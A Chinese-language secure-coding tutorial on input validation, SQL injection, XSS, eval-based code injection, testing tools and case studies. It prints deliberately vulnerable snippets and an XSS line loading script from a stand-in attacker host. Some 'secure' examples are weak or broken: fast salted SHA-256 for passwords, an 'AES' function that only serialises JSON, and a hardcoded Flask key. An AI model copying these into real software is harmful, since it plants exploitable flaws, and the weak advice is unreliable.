

                 

### 文章标题：安全编码规范：从源头预防安全漏洞

### 关键词：安全编码，漏洞预防，编程规范，安全测试，案例分析

### 摘要：
在信息化时代，软件的安全性至关重要。本文从源头出发，探讨安全编码规范的重要性，解析常见安全漏洞类型，提供实用的安全编码实践技巧，介绍安全测试与工具，并通过案例分析，深化对安全编码规范的理解。文章旨在为开发人员提供一套全面、实用的安全编码指南，帮助他们在项目开发中有效预防安全漏洞。

## 引言

在信息技术飞速发展的今天，软件已经成为企业运营和日常生活不可或缺的一部分。然而，随之而来的信息安全问题也日益凸显。安全漏洞是网络安全的主要威胁之一，它可能导致数据泄露、系统瘫痪、经济损失，甚至对社会稳定造成影响。据统计，每年由于软件安全漏洞导致的安全事件给企业和个人带来的损失高达数十亿美元。

安全编码是预防安全漏洞的关键手段。通过遵循一系列安全编码规范，开发人员可以在代码编写阶段就识别和修复潜在的安全问题，从而降低软件在运行时遭受攻击的风险。本文将从以下几个方面展开讨论：

1. **安全编码规范基础**：介绍安全编码的基本原则和重要性。
2. **常见安全漏洞类型**：分析输入验证漏洞、注入攻击漏洞、交叉站点脚本漏洞、安全配置错误等常见漏洞。
3. **安全编码实践技巧**：提供实用的安全编码最佳实践。
4. **安全测试与工具**：介绍不同类型的安全测试及其工具。
5. **安全编码案例分析**：通过具体案例，展示如何在实际项目中应用安全编码规范。
6. **安全编码规范在大型项目中的应用**：探讨在大型项目中如何实施安全编码规范。
7. **安全编码规范未来发展趋势**：展望安全编码规范的发展方向。

本文的目标是帮助开发人员全面了解安全编码的重要性，掌握安全编码实践技巧，从而在项目开发中有效地预防安全漏洞。

## 安全编码规范基础

### 1.1 安全编码的重要性

安全编码是指在进行软件开发时，有意识地采用一系列技术手段来识别和修复潜在的安全问题。其重要性主要体现在以下几个方面：

- **预防风险**：通过安全编码，可以在代码编写阶段就识别和修复潜在的安全漏洞，从而避免在软件运行时遭受攻击，减少风险。
- **保障用户隐私**：很多应用程序都需要处理用户的敏感数据，如个人信息、财务信息等。安全编码可以确保这些数据的安全，保护用户隐私。
- **提高软件可靠性**：安全编码不仅关注软件的安全性，还注重软件的整体质量。通过严格的编码规范，可以提高软件的稳定性和可靠性。
- **降低维护成本**：早期的安全漏洞修复成本远低于漏洞被发现后的补救措施。通过安全编码，可以在开发阶段就避免漏洞的产生，降低后续的维护成本。

### 1.2 安全编码规范概述

安全编码规范是一套标准的指导原则，旨在帮助开发人员编写安全、可靠、高效的代码。这些规范通常包括以下几个方面：

- **输入验证**：确保对用户输入进行严格的验证，防止恶意输入。
- **权限管理**：正确实现用户身份验证和授权机制，防止未授权访问。
- **数据加密**：对敏感数据进行加密存储和传输，防止数据泄露。
- **异常处理**：妥善处理程序异常，防止因异常处理不当而导致的安全漏洞。
- **代码质量**：编写清晰、简洁、可维护的代码，避免代码中的潜在隐患。

### 1.3 安全编码核心概念关联图

以下是一个简化的Mermaid流程图，展示了安全编码中的核心概念及其相互关系：



该图展示了输入验证、注入攻击防护、数据加密、权限管理、异常处理、代码质量等核心概念之间的相互关系，并指出了它们在安全编码中的重要性。

## 常见安全漏洞类型

在软件开发过程中，由于各种原因，可能会引入不同类型的安全漏洞。以下介绍几种常见的安全漏洞类型，以及如何识别和防范这些漏洞。

### 2.1 输入验证漏洞

输入验证漏洞是指对用户输入没有进行充分的验证，导致恶意输入被接受，从而可能引发代码执行、数据泄露或其他安全问题。以下是一个简化的伪代码示例：

```python
def process_input(input_value):
    if input_value.isnumeric():
        return "Valid"
    else:
        return "Invalid"
```

此代码仅检查输入是否为数字，没有对输入长度、类型等进行检查，可能导致注入攻击。

防范措施：

- 对所有输入进行严格验证，包括长度、类型、范围等。
- 使用预定义的输入格式进行验证。
- 避免直接将用户输入嵌入到SQL查询中，使用参数化查询。

### 2.2 注入攻击漏洞

注入攻击是指攻击者通过在应用程序中注入恶意代码，从而获取未授权的访问权限或执行恶意操作。以下是一个简化的SQL注入示例：

```python
user = request.form['username']
password = request.form['password']
sql = "SELECT * FROM users WHERE username = '{}' AND password = '{}'".format(user, password)
cursor.execute(sql)
```

此代码直接将用户输入嵌入到SQL查询中，可能导致SQL注入攻击。

防范措施：

- 使用参数化查询，避免直接拼接SQL语句。
- 对用户输入进行严格验证，确保输入不会影响SQL语句的执行。
- 使用ORM（对象关系映射）工具，减少直接操作SQL语句。

### 2.3 交叉站点脚本漏洞

交叉站点脚本（XSS）漏洞是指攻击者通过在受信任的网站上注入恶意脚本，从而窃取用户的会话信息或进行其他恶意操作。以下是一个简化的XSS示例：

```html
<script src="http://attacker.com/malicious.js"></script>
```

此代码在用户的浏览器中执行了外部脚本，可能导致会话劫持或其他安全问题。

防范措施：

- 对用户输入进行严格验证，避免将用户输入直接嵌入到HTML、JavaScript等可执行代码中。
- 使用内容安全策略（CSP）限制可执行代码的来源。
- 对会话进行加密，确保攻击者无法窃取用户会话信息。

### 2.4 安全配置错误

安全配置错误是指由于配置不当导致的安全漏洞。以下是一个简化的配置错误示例：

```properties
# 配置文件
db.username = admin
db.password = 123456
```

此配置文件将数据库用户名和密码直接暴露在代码中，可能导致数据库被未授权访问。

防范措施：

- 使用加密存储敏感信息，如数据库用户名和密码。
- 避免将敏感信息直接嵌入到代码中。
- 定期审查和更新配置文件，确保配置正确无误。

### 2.5 代码注入漏洞

代码注入漏洞是指攻击者通过在应用程序中注入恶意代码，从而执行未经授权的操作。以下是一个简化的代码注入示例：

```python
code = request.form['code']
eval(code)
```

此代码直接执行了用户输入的代码，可能导致代码注入攻击。

防范措施：

- 禁用`eval()`函数，避免直接执行用户输入的代码。
- 对用户输入进行严格验证，确保输入不会影响程序的执行。
- 使用沙箱环境执行用户输入的代码，限制其访问权限。

通过了解和掌握这些常见安全漏洞类型及其防范措施，开发人员可以在项目开发过程中有针对性地进行安全防护，从而提高软件的安全性。

## 安全编码实践技巧

### 3.1 编码前准备

在进行编码之前，开发人员应该做好充分的准备工作，以减少潜在的安全风险。以下是一些建议：

- **学习安全编码规范**：熟悉常用的安全编码规范，如OWASP编码规范、OWASP安全原则等，了解如何在实际开发中应用这些规范。
- **代码审查**：在编码之前，对现有代码进行审查，识别潜在的安全漏洞，并提出修复建议。
- **制定安全策略**：制定详细的安全策略，包括数据加密、权限管理、输入验证等方面的具体要求。
- **使用安全的开发工具**：选择支持安全编码的开发工具和框架，如IDE中的安全插件、静态代码分析工具等。

### 3.2 安全编码最佳实践

在编码过程中，遵循一系列最佳实践可以显著提高代码的安全性。以下是一些建议：

- **严格输入验证**：对所有输入进行严格验证，确保输入符合预期格式和范围，防止恶意输入。
- **使用参数化查询**：避免直接拼接SQL语句，使用参数化查询防止SQL注入攻击。
- **数据加密**：对敏感数据进行加密存储和传输，如用户密码、信用卡信息等。
- **权限管理**：正确实现用户身份验证和授权机制，确保用户只能访问其权限范围内的资源。
- **异常处理**：妥善处理程序异常，防止因异常处理不当而导致的安全漏洞。
- **代码质量**：编写清晰、简洁、可维护的代码，避免代码中的潜在隐患。

### 3.3 安全编码工具和框架

在实际开发中，可以使用一系列安全编码工具和框架来提高代码的安全性。以下是一些常用的工具和框架：

- **静态代码分析工具**：如SonarQube、FindBugs等，可以自动检测代码中的安全漏洞。
- **动态代码分析工具**：如OWASP ZAP、Burp Suite等，可以在代码运行时检测安全漏洞。
- **加密库**：如OpenSSL、AES等，提供安全的加密和解密功能。
- **权限管理框架**：如Spring Security、Apache Shiro等，提供完善的权限管理功能。
- **输入验证框架**：如Apache Commons Validator、Hibernate Validator等，提供强大的输入验证功能。

通过遵循这些安全编码实践技巧，开发人员可以在项目开发过程中有效预防安全漏洞，提高软件的安全性。

## 安全测试与工具

安全测试是确保软件安全性的重要手段。通过不同类型的安全测试，可以识别和修复潜在的安全漏洞。以下介绍几种常见的安全测试类型及其工具。

### 4.1 单元测试

单元测试是指对软件中最小的功能单元（如函数、方法、类等）进行测试，以确保其按照预期工作。以下是一个简单的Python单元测试示例：

```python
import unittest
from my_module import my_function

class TestMyFunction(unittest.TestCase):
    def test_my_function(self):
        self.assertEqual(my_function(2), 4)
        self.assertNotEqual(my_function(3), 5)

if __name__ == '__main__':
    unittest.main()
```

此测试案例验证了`my_function`函数是否正确返回计算结果。

### 4.2 集成测试

集成测试是指对软件的多个模块进行联合测试，以确保它们之间能够正确交互。以下是一个简单的Python集成测试示例：

```python
import unittest
from my_module import my_function, my_other_function

class TestMyModule(unittest.TestCase):
    def test_my_module(self):
        result = my_function(2) + my_other_function(2)
        self.assertEqual(result, 4)

if __name__ == '__main__':
    unittest.main()
```

此测试案例验证了`my_function`和`my_other_function`函数的联合输出是否符合预期。

### 4.3 功能测试

功能测试是指对软件的特定功能进行测试，以确保其按照需求工作。以下是一个简单的Web功能测试示例：

```python
import unittest
from selenium import webdriver

class TestWebApplication(unittest.TestCase):
    def test_login(self):
        driver = webdriver.Chrome()
        driver.get("http://example.com/login")
        driver.find_element_by_name("username").send_keys("admin")
        driver.find_element_by_name("password").send_keys("password")
        driver.find_element_by_css_selector("input[type='submit']").click()
        self.assertIn("Welcome, admin!", driver.page_source)

if __name__ == '__main__':
    unittest.main()
```

此测试案例验证了Web应用的登录功能是否正常。

### 4.4 安全漏洞扫描工具

安全漏洞扫描工具可以自动检测软件中的安全漏洞，提供快速、高效的测试方法。以下是一些常用的安全漏洞扫描工具：

- **SonarQube**：一款强大的静态代码分析工具，可以检测代码中的安全漏洞、代码质量等问题。
- **OWASP ZAP**：一款开源的动态代码分析工具，可以检测Web应用中的安全漏洞。
- **Burp Suite**：一款功能强大的Web应用安全测试工具，可以执行各种类型的测试，如漏洞扫描、代理等。
- **Nessus**：一款专业的漏洞扫描工具，可以检测操作系统、网络设备等潜在的安全漏洞。

通过使用这些安全测试工具，开发人员可以更有效地识别和修复潜在的安全漏洞，提高软件的安全性。

## 安全编码案例分析

### 5.1 案例一：密码存储安全

在Web应用开发中，密码存储是确保用户隐私和安全的重要环节。以下是一个实际案例，展示了如何通过安全编码规范来提高密码存储的安全性。

#### 案例背景

某公司开发了一款在线购物平台，用户需要注册并登录才能使用平台功能。用户密码存储在数据库中，需要进行严格的安全防护。

#### 安全编码规范应用

1. **密码加密存储**：使用强加密算法（如SHA-256）对用户密码进行加密存储，避免直接存储明文密码。
2. **加盐加密**：在加密过程中添加随机盐值，增加破解难度。
3. **密码验证**：在用户登录时，对输入的密码进行加密并与数据库中的密码进行比对，确保密码匹配。

#### 伪代码示例

```python
import hashlib, os

def encrypt_password(password):
    salt = os.urandom(16)
    encrypted_password = hashlib.sha256(salt + password.encode()).hexdigest()
    return encrypted_password, salt

def verify_password(input_password, stored_password, stored_salt):
    encrypted_input_password = hashlib.sha256(stored_salt + input_password.encode()).hexdigest()
    return encrypted_input_password == stored_password
```

通过上述安全编码规范的应用，用户密码的安全性得到了显著提高，即使数据库被攻击者获取，也无法直接获取用户的明文密码。

### 5.2 案例二：身份验证与授权

在大型系统中，身份验证和授权是确保系统安全的重要机制。以下是一个实际案例，展示了如何通过安全编码规范来确保身份验证与授权的安全性。

#### 案例背景

某公司开发了一套企业资源规划（ERP）系统，包含多个模块，如财务、人力资源、库存管理等。系统需要确保用户只能访问其权限范围内的功能模块。

#### 安全编码规范应用

1. **多因素身份验证**：使用密码、验证码、手机短信验证等多种方式，确保用户身份的合法性。
2. **权限控制**：根据用户的角色和权限，动态生成访问控制列表（ACL），确保用户只能访问其权限范围内的功能。
3. **会话管理**：使用安全会话管理机制，如设置会话超时时间、会话加密等，确保用户会话的安全性。

#### 伪代码示例

```python
from flask import Flask, request, session

app = Flask(__name__)
app.secret_key = 'my_secret_key'

@app.route('/login', methods=['POST'])
def login():
    username = request.form['username']
    password = request.form['password']
    # 验证用户身份
    if verify_credentials(username, password):
        session['username'] = username
        return "登录成功"
    else:
        return "登录失败"

@app.route('/protected', methods=['GET'])
def protected():
    if 'username' in session:
        return "您已登录，可以访问受保护资源"
    else:
        return "请先登录"

def verify_credentials(username, password):
    # 验证用户名和密码
    return True  # 这里需要替换为实际的验证逻辑

if __name__ == '__main__':
    app.run()
```

通过上述安全编码规范的应用，ERP系统的身份验证与授权机制得到了有效保障，用户访问资源的安全性得到了显著提高。

### 5.3 案例三：数据加密与保护

在数据传输和存储过程中，确保数据的安全性至关重要。以下是一个实际案例，展示了如何通过安全编码规范来保护数据。

#### 案例背景

某公司开发了一套在线医疗系统，需要处理大量的敏感患者数据，如病历、诊断结果等。系统需要确保数据在传输和存储过程中的安全性。

#### 安全编码规范应用

1. **数据传输加密**：使用TLS（传输层安全性协议）对数据进行传输加密，确保数据在传输过程中的安全性。
2. **数据存储加密**：对存储在数据库中的敏感数据进行加密，防止数据泄露。
3. **访问控制**：根据用户权限，设置严格的数据访问控制策略，确保用户只能访问其权限范围内的数据。

#### 伪代码示例

```python
import requests, json

def send_secure_request(url, data):
    headers = {
        'Content-Type': 'application/json',
        'Authorization': 'Bearer your_access_token'
    }
    encrypted_data = encrypt_data(data)
    response = requests.post(url, headers=headers, data=encrypted_data)
    return decrypt_data(response.content)

def encrypt_data(data):
    # 使用AES加密算法对数据加密
    return json.dumps(data)

def decrypt_data(encrypted_data):
    # 使用AES加密算法对数据解密
    return json.loads(encrypted_data)

# 举例：发送加密请求
url = "https://api.example.com/data"
data = {"patient_id": "12345", "diagnosis": "influenza"}
response = send_secure_request(url, data)
print(response)
```

通过上述安全编码规范的应用，在线医疗系统的数据传输和存储安全性得到了显著提高，患者数据得到了有效保护。

### 项目小结

通过上述三个案例，我们可以看到，安全编码规范在项目开发中的重要性。无论是在密码存储、身份验证与授权，还是在数据加密与保护方面，遵循安全编码规范都能显著提高系统的安全性。项目小结如下：

1. **密码存储安全**：通过加密存储和加盐加密，提高密码安全性。
2. **身份验证与授权**：通过多因素身份验证和权限控制，确保用户身份合法和访问控制严格。
3. **数据加密与保护**：通过数据传输加密和存储加密，确保数据在传输和存储过程中的安全性。

这些案例展示了如何在实际项目中应用安全编码规范，提高软件的安全性。开发人员应持续关注安全编码规范的发展，并将其融入项目开发中，以实现软件安全性的持续提升。

## 安全编码规范在大型项目中的应用

在大型项目的开发过程中，安全编码规范的应用尤为重要。以下探讨如何在大规模项目中实施安全编码规范，确保软件的高安全性和可靠性。

### 6.1 项目规划与实施

1. **安全需求分析**：在项目规划阶段，对项目进行安全需求分析，明确项目面临的安全威胁和潜在风险，制定相应的安全策略。
2. **安全培训**：对开发团队进行安全培训，确保团队成员了解安全编码规范的重要性，掌握基本的编程安全和测试技巧。
3. **安全设计**：在系统设计阶段，充分考虑安全性因素，设计安全架构和关键模块，确保系统的整体安全性。
4. **代码审查**：采用代码审查机制，对关键代码进行安全审查，识别和修复潜在的安全漏洞。

### 6.2 团队协作与沟通

1. **代码共享与协作**：采用版本控制系统，如Git，实现代码的集中管理和协作开发，确保代码的一致性和安全性。
2. **持续集成与交付**：采用持续集成和交付（CI/CD）工具，如Jenkins，实现代码的自动化测试和部署，确保代码质量和安全性。
3. **安全评审**：定期组织安全评审会议，讨论和解决项目中的安全问题，确保项目按照安全规范进行。

### 6.3 持续集成与交付

1. **自动化测试**：采用自动化测试工具，如Selenium、JUnit，对项目进行自动化测试，包括单元测试、集成测试和功能测试，确保代码质量和安全性。
2. **安全漏洞扫描**：集成安全漏洞扫描工具，如SonarQube、Nessus，对代码进行静态和动态分析，识别和修复潜在的安全漏洞。
3. **代码质量度量**：采用代码质量度量工具，如CodeClimate、SonarQube，评估代码的质量和安全性，确保项目按照最佳实践进行开发。

### 6.4 安全文档编写

1. **安全文档**：编写详细的安全文档，包括安全策略、安全需求、安全设计、安全测试计划等，确保项目安全性的透明性和可追溯性。
2. **安全报告**：定期生成安全报告，包括安全漏洞的识别和修复情况，项目安全状况等，为项目管理和决策提供依据。

通过上述措施，开发团队可以确保在大型项目开发中严格遵循安全编码规范，提高软件的安全性和可靠性，为企业的可持续发展提供有力保障。

## 安全编码规范未来发展趋势

随着信息技术的不断进步，安全编码规范也在不断发展。以下探讨安全编码规范的未来发展趋势：

### 7.1 安全编码新技术

1. **人工智能与安全编码**：利用人工智能技术，自动检测和修复代码中的安全漏洞。例如，基于深度学习的代码分析工具可以更准确地识别潜在的安全问题。
2. **区块链技术**：将区块链技术应用于安全编码，实现数据的安全存储和不可篡改。例如，使用智能合约进行权限管理和交易验证，提高系统的安全性。

### 7.2 安全编码教育与培训

1. **安全编程课程**：在学校和培训机构中开设安全编程课程，培养开发人员的安全意识和技能。
2. **在线学习平台**：提供丰富的在线学习资源，如视频课程、编程挑战、案例研究等，帮助开发人员提升安全编码能力。

### 7.3 安全编码规范标准化

1. **国际标准**：推动安全编码规范的国际标准化，制定统一的编码规范和测试标准，提高全球软件的安全性和互操作性。
2. **行业规范**：不同行业根据自身特点，制定符合行业需求的安全编码规范，如金融行业的安全编码规范、医疗行业的安全编码规范等。

通过上述发展趋势，安全编码规范将更加成熟和完善，为软件开发提供更加坚实的保障。

## 附录

### 附录A：常见安全编码工具与资源

以下列出了一些常见的安全编码工具和资源，供开发人员参考：

- **静态代码分析工具**：SonarQube、FindBugs、Checkstyle
- **动态代码分析工具**：OWASP ZAP、Burp Suite、Nessus
- **加密库**：OpenSSL、AES、RSA
- **权限管理框架**：Spring Security、Apache Shiro
- **输入验证框架**：Apache Commons Validator、Hibernate Validator
- **安全编码规范**：OWASP编码规范、OWASP安全原则
- **在线学习资源**：Udemy、Coursera、edX
- **安全培训课程**：OWASP Foundation、SANS Institute

这些工具和资源有助于开发人员在实际项目中遵循安全编码规范，提高软件的安全性。

### 作者信息

- **作者**：AI天才研究院/AI Genius Institute & 禅与计算机程序设计艺术 /Zen And The Art of Computer Programming

本文由AI天才研究院/AI Genius Institute撰写，旨在为开发人员提供一套全面、实用的安全编码指南，帮助他们在项目开发中有效预防安全漏洞。同时，本文参考了《禅与计算机程序设计艺术》一书的相关观点，深入探讨了安全编码的核心原理和实践技巧。

### 最佳实践 Tips

1. **持续关注安全编码规范**：安全编码规范不断更新，开发人员应持续关注最新的规范和标准，将其应用于项目开发中。
2. **加强安全培训**：定期组织安全培训，提高开发人员的安全意识和技能，确保项目团队整体的安全能力。
3. **定期安全审计**：定期对项目进行安全审计，识别和修复潜在的安全漏洞，确保项目的安全性。

通过遵循上述最佳实践，开发人员可以更好地预防安全漏洞，提高软件的安全性。

### 小结

本文从多个角度探讨了安全编码规范的重要性，分析了常见安全漏洞类型，提供了实用的安全编码实践技巧，并介绍了安全测试与工具。通过案例分析，我们展示了如何在实际项目中应用安全编码规范，提高软件的安全性。未来，随着新技术的发展，安全编码规范将更加成熟和完善，为软件开发提供更加坚实的保障。开发人员应持续关注安全编码规范，并将其融入项目开发中，为软件安全性的持续提升贡献力量。

### 注意事项

1. **代码审查**：在代码提交前，进行严格的代码审查，确保代码遵循安全编码规范。
2. **权限管理**：确保权限管理机制完善，防止未授权访问。
3. **安全测试**：在项目开发过程中，定期进行安全测试，识别和修复潜在的安全漏洞。

通过遵循这些注意事项，开发人员可以更好地预防安全漏洞，提高软件的安全性。

### 拓展阅读

1. **《网络安全法》**：了解我国网络安全法的相关规定，确保项目合规。
2. **《OWASP Top 10》**：了解OWASP发布的Top 10安全漏洞，掌握常见的安全防护措施。
3. **《软件工程：实践者的研究方法》**：学习软件工程的基本原则和方法，提高项目开发的质量。

通过拓展阅读，开发人员可以进一步深入了解安全编码的相关知识，提升安全编码能力。

